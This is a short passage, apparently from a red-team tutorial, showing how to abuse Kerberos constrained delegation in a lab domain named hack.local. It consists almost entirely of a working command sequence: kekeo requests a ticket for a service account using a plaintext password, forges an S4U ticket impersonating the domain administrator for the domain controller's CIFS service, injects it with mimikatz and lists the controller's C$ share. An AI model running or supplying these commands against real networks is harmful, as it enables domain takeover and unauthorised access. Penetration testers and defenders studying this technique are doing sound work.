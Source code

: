 ![](./images/25.png#pic_center)

#### Tickets for using service accounts

```powershell
# Construct the tickets for the UDUser service account
kekeo.exe "tgt::ask /user:UDUser /domain:hack.local /password:H3rmesk1t@2023 /ticket:UDUser.kirbi" "exit"

# Use the UDUser ticket that you just forged, and apply for CIFS service tickets from the domain server.
kekeo.exe "Tgs::s4u /tgt:TGT_UDUser@HACK.LOCAL_krbtgt~hack.local@HACK.LOCAL.kirbi /user:administrator@hack.local /service:cifs/DC.hack.local" "exit"

# Use mimikatz to inject the ticket into the current session.
mimikatz.exe "kerberos::ptt TGS_administrator@hack.local@HACK.LOCAL_cifs~DC.hack.local@HACK.LOCAL.kirbi" "exit"

# Access the target shared disk
dir \\DC.hack.local\C$
```
